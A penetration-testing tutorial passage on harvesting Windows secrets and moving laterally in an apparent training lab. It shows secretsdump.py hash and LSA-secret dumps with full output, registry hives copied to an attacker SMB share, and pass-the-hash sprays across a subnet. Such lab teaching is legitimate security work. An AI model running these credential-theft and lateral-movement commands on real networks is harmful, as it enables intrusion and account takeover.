







Pivoting or lateral movement is a set of techniques used during a penetration test or Red Team campaign. It consists of using a machine controlled by the attacker as a bounce box, to gain further access to the network.
Before we try to do a lateral movement or pivoting, It is really important that we get all the secrets that the just owned machine has to offer us. Talking about Windows, we do have lots of secrets stored and they can also be found in different places.
We can start by using secretsdump.py from Impacket to retrieve these secrets.
Note: to be able to use secretsdump.py we need to be have Administrators Rights. In this case have access to the Administrator account, or at least to be on hold of a user with Administrator Rights.
We can use Netexec to find out if our user is an Administrator in the target machine.
netexec smb 10.4.10.22 -u 'jeor.mormont' -p '_L0ngCl@w_'

We can see from the screenshot above that, user Jeor.mormont is an administrator in the machine 10.4.10.22, because Netexec output returned with a (Pwn3d!) in yellow.
It means that we are an administrator in this machine.
OK, now that we do know that we do have a valid administrator account with us, we can now use secretsdump.py to retrieved the secrets of the target machine.
secretsdump.py north/jeor.mormont:'_L0ngCl@w_'@10.4.10.22
Impacket v0.12.0.dev1+20231130.165011.d370e63 - Copyright 2023 Fortra
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x928d80db0d4066816b5b48e573ce4297
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:fc1040929894fbc7780e0ecd8cb188d4:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
[*] Dumping cached domain logon information (domain/username:hash)
NORTH.SEVENKINGDOMS.LOCAL/sql_svc:$DCC2$10240#sql_svc#89e701ebbd305e4f5380c5150494584a: (2024-01-13 18:18:04)
NORTH.SEVENKINGDOMS.LOCAL/robb.stark:$DCC2$10240#robb.stark#f19bfb9b10ba923f2e28b733e5dd1405: (2024-01-13 18:19:31)
NORTH.SEVENKINGDOMS.LOCAL/vagrant:$DCC2$10240#vagrant#a14c16d521e2f5773307299239284ce2: (2024-01-07 14:12:01)
NORTH.SEVENKINGDOMS.LOCAL/jon.snow:$DCC2$10240#jon.snow#82fdcc982f02b389a002732efaca9dc5: (2024-01-10 19:41:25)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
NORTH\CASTELBLACK$:aes256-cts-hmac-sha1-96:91821b3fdb370707e8657076c21dc32f2b7ec253e077bfbfe378710581df6bd8
NORTH\CASTELBLACK$:aes128-cts-hmac-sha1-96:94e639f67947bf57297d4ce85a49a35c
NORTH\CASTELBLACK$:des-cbc-md5:0d100889f2d60ed5
NORTH\CASTELBLACK$:plain_password_hex:7400230029002c00210066006f005800210026002b00780057002d0034005a003c002f0040002600540031002a0056007100410023004c004a00770063003d003300490063003c005b00320076005d00770038005700340057007400560032003b002f004e006e004c0041003e0038004d0037005e003f00720070002e00280068003c006a005f003000480042002a004d00350066003f0060006a002e003700370031002400360061004b005e00780050002a004800650033004c006f0059005a006600690045002d0059003c006e00680028005600360060003a002e0044004c003700670041005d00390034003a00
NORTH\CASTELBLACK$:aad3b435b51404eeaad3b435b51404ee:a8573f70897bd596742b3b9f2699ee81:::
[*] DPAPI_SYSTEM
dpapi_machinekey:0xcb0cad11bd8307cb9bd7fe1487f5259d28f331eb
dpapi_userkey:0x04a93f6e8ba904e7cfd88af38a489b6c0106f132
[*] NL$KM
0000 10 A0 14 29 CD E3 43 58 24 37 2B 04 8F 67 CD F3 ...)..CX$7+..g..
0010 8A 96 2F 6E DD A9 F4 C3 3E 4B CB 66 FA F6 5F 17 ../n....>K.f.._.
0020 DB E3 87 8D 42 B4 BF AF 2A 9B 90 B8 4D 6C DD 8E ....B...*...Ml..
0030 61 13 95 EB C8 60 97 18 50 EA 2F 5F DF 27 1F 37 a....`..P./_.'.7
NL$KM:10a01429cde3435824372b048f67cdf38a962f6edda9f4c33e4bcb66faf65f17dbe3878d42b4bfaf2a9b90b84d6cdd8e611395ebc860971850ea2f5fdf271f37
[*] _SC_MSSQL$SQLEXPRESS
north.sevenkingdoms.local\sql_svc:YouWillNotKerboroast1ngMeeeeee
[*] Cleaning up...
[*] Stopping service RemoteRegistryAbove we see secretsdump.py output and we can see that it retrieved lots of secrets/credentials/hashes. Let’s talk about each one of them!
Security Account Manager (SAM) Database
The Security Account Manager (SAM) is a database that is present on computers running Windows operating systems that stores user accounts and security descriptors for users on the local computer.
The first think secretsdump.py will be dumping is the SAM.
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:fc1040929894fbc7780e0ecd8cb188d4:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::The SAM database is located in C:\Windows\System32\config\SAM and is mounted on registry at HKLM/SAM
To be able to decrypt the data we need the contains of the system file located at C:\Windows\System32\config\SYSTEM and it’s available on the registry at HKLM/SYSTEM.
SecretDump get the contains of HKLM/SAM and HKLM/SYSTEM and decrypt the contains.
Manual Way
We can also retrieve the SAM and the SYSTEM manually with the following 2 ways.
1ST WAY
First we start an SMB Server on our local machine to save the results locally.
smbserver.py -smb2support share .
Then we can use reg.py from Impacket to make the SAM & SYSTEM requests.
reg.py north/jeor.mormont:'L0ngCl@w'@10.4.10.22 save -keyName 'HKLM\SAM' -o '\\10.4.10.1\share'
reg.py north/jeor.mormont:'L0ngCl@w'@10.4.10.22 save -keyName 'HKLM\SYSTEM' -o '\\10.4.10.1\share'

We can see above that we were able to retrieve SAM & SYSTEM manually with this first option.
2ND WAY
If we do have already a valid windows remote sessions, via RDP or in any kind of powershell remote session for example, we can use the commands and retrieve the SAM & SYSTEM.
reg save HKLM\SAM C:\SAM
reg save HKLM\SYSTEM C:\SYSTEM

We can see above that we were able to gather the SAM and SYSTEM and save them in the windows root directory C:\.
Holding the SAM & SYSTEM with us we can use secretsdumps.py to decrypt LM and NT hashs offline stored in the SAM database because The SAM database contains all the local accounts
Decrypting LM & NT offline using secretsdump.py
secretsdump.py -sam SAM -system SYSTEM LOCAL
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:fc1040929894fbc7780e0ecd8cb188d4:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::Please be aware of the following format of the hashes.
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
user: Administrator
RID : 500
LM hash : aad3b435b51404eeaad3b435b51404ee (this hash value means empty)
NT hash : dbd13e1c4e338284ac4e9874f7de6ef4 (this is the important result here)We have the NT hash of the administrator account, we can either crack it using John or Hashcat to crack it.

Let’s focus on Lateral movement now…
Password Reuse and Pass the Hash attack
During a pentesting, if we completely compromised the first target on an Active Directory environment, we should always try to find out if the local accounts are the same on all other machines in the same network. Normally Password Reuse is everywhere in the network and one of the best ways to abuse password reuse is by using Pass The Hash attack in the whole network using NetExec.
netexec smb 10.4.10.0/24 -u 'administrator' -H 'dbd13e1c4e338284ac4e9874f7de6ef4' --local-auth

Because we used the --local-auth flag, NetExec will try to the authentication on the machine as a local user account and not as a domain account. We can see here that besides Castelback. there’s no password reuse in the network.
Now let’s do the Pass The Hash again, but this time we exclude the--local-auth.
netexec smb 10.4.10.0/24 -u 'administrator' -H 'dbd13e1c4e338284ac4e9874f7de6ef4'

This time we can see that not only Castelblack was (Pwn3d!) but also Winterfall! The reason for that is because without the use of the flag--local-auth, the Pass The Hash attack will be using the user and password as a domain account and not as a local machine account.
The password reuse between Castelblack and Winterfell give us the domain administrator power on the north domain.
LSA (Local Security Authority) Secrets and Cached domain logon information
When your computer is enrolled on a windows active directory you can logon with the domain credentials, but when the domain is unreachable you still can use your credentials even if the domain controler is unreachable. This is due to the cached domain logon information who keep the credentials to verify your identity.
This is stored on C:\Windows\System32\config\SECURITY (HKLM\SECURITY)
We will need the system file located at C:\Windows\System32\config\SYSTEM and is available on the registry at HKLM/SYSTEM
First we start an SMB Server on our local machine to save the results locally.
smbserver.py -smb2support share .
Then we can use reg.py from Impacket to make the SAM & SYSTEM requests.
reg.py north/jeor.mormont:'_L0ngCl@w_'@10.4.10.22 save -keyName 'HKLM\SYSTEM' -o '\\10.4.10.1\share'
reg.py north/jeor.mormont:'_L0ngCl@w_'@10.4.10.22 save -keyName 'HKLM\SECURITY' -o '\\10.4.10.1\share'
Then we can extract the contain offline.
secretsdump -security SECURITY.save -system SYSTEM.save LOCAL
Impacket v0.12.0.dev1+20231130.165011.d370e63 - Copyright 2023 Fortra
[*] Target system bootKey: 0x928d80db0d4066816b5b48e573ce4297
[*] Dumping cached domain logon information (domain/username:hash)
NORTH.SEVENKINGDOMS.LOCAL/sql_svc:$DCC2$10240#sql_svc#89e701ebbd305e4f5380c5150494584a: (2024-01-13 18:18:04)
NORTH.SEVENKINGDOMS.LOCAL/robb.stark:$DCC2$10240#robb.stark#f19bfb9b10ba923f2e28b733e5dd1405: (2024-01-13 18:19:31)
NORTH.SEVENKINGDOMS.LOCAL/vagrant:$DCC2$10240#vagrant#a14c16d521e2f5773307299239284ce2: (2024-01-07 14:12:01)
NORTH.SEVENKINGDOMS.LOCAL/jon.snow:$DCC2$10240#jon.snow#82fdcc982f02b389a002732efaca9dc5: (2024-01-10 19:41:25)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC:plain_password_hex:7400230029002c00210066006f005800210026002b00780057002d0034005a003c002f0040002600540031002a0056007100410023004c004a00770063003d003300490063003c005b00320076005d00770038005700340057007400560032003b002f004e006e004c0041003e0038004d0037005e003f00720070002e00280068003c006a005f003000480042002a004d00350066003f0060006a002e003700370031002400360061004b005e00780050002a004800650033004c006f0059005a006600690045002d0059003c006e00680028005600360060003a002e0044004c003700670041005d00390034003a00
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:a8573f70897bd596742b3b9f2699ee81
[*] DPAPI_SYSTEM
dpapi_machinekey:0xcb0cad11bd8307cb9bd7fe1487f5259d28f331eb
dpapi_userkey:0x04a93f6e8ba904e7cfd88af38a489b6c0106f132
[*] NL$KM
0000 10 A0 14 29 CD E3 43 58 24 37 2B 04 8F 67 CD F3 ...)..CX$7+..g..
0010 8A 96 2F 6E DD A9 F4 C3 3E 4B CB 66 FA F6 5F 17 ../n....>K.f.._.
0020 DB E3 87 8D 42 B4 BF AF 2A 9B 90 B8 4D 6C DD 8E ....B...*...Ml..
0030 61 13 95 EB C8 60 97 18 50 EA 2F 5F DF 27 1F 37 a....`..P./_.'.7
NL$KM:10a01429cde3435824372b048f67cdf38a962f6edda9f4c33e4bcb66faf65f17dbe3878d42b4bfaf2a9b90b84d6cdd8e611395ebc860971850ea2f5fdf271f37
[*] _SC_MSSQL$SQLEXPRESS
(Unknown User):YouWillNotKerboroast1ngMeeeeee
[*] Cleaning up...If we do have already a valid windows remote sessions, via RDP or in any kind of powershell remote session for example, we can use the commands and retrieve the SAM & SYSTEM.
reg save HKLM\SAM C:\SAM
reg save HKLM\SYSTEM C:\SYSTEM

Moving on…
It is possible to see based on the secretsdump.py decryption that we got several hashes here..
Domain Cached credentials 2.
NORTH.SEVENKINGDOMS.LOCAL/robb.stark:$DCC2$10240#robb.stark#f19bfb9b10ba923f2e28b733e5dd1405 this is the well known
This hash can NOT be used for Pass The Hash and must be cracked. That kind of hash is very strong and long to break, so unless the password is very weak it will take an eternity to crack. If Hashcat is used to crack this hash the we use the mode 2100.
Machine Account Hashes $MACHINE.ACC.
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:a8573f70897bd596742b3b9f2699ee81